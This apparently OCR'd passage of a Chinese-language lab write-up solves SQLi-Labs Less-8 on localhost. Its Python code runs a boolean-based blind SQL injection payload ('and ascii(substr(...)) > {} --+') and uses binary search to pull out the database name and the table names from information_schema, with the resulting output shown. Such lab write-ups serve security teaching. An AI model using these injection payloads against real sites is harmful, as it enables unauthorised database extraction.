 ```python

databaseName = ""
for i in range(1, databaseNameLength+1):
    databaseName += chr(getBinarySearchResult(
        URL_PREFIX + "?id=1' and ascii(substr((select database())," + str(i) + ",1)) > {} --+",
        [0, 128],
        "You are in..........."
    ))
    print(databaseName)
```

```shell
C:\> python writeup.py
    数据库名的长度为8位
    s
    se
    sec
    secu
    secur
    securi
    securit
    security
```

爆表名：

```python
import requests

MAX_FILED_LENGTH = 40
URL_PREFIX = "http://localhost/SQLi-Labs/Less-8/"


def getBinarySearchResult(url: str, paramRange: list[int], successInfo: str) -> int:
	......

databaseName = "security"
columnsName = ""
for i in range(1,MAX_FILED_LENGTH+1):
    columnsName += chr(getBinarySearchResult(
        URL_PREFIX + "?id=1' and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),"+str(i)+",1)) > {} --+",
        [0,127],
        "You are in..........."
    ))
    print(columnsName)
```

```shell
C:/> python writeup.py
    e
    em
    ema
	......
    emails,referers,uagents,user
    emails,referers,uagents,users
```
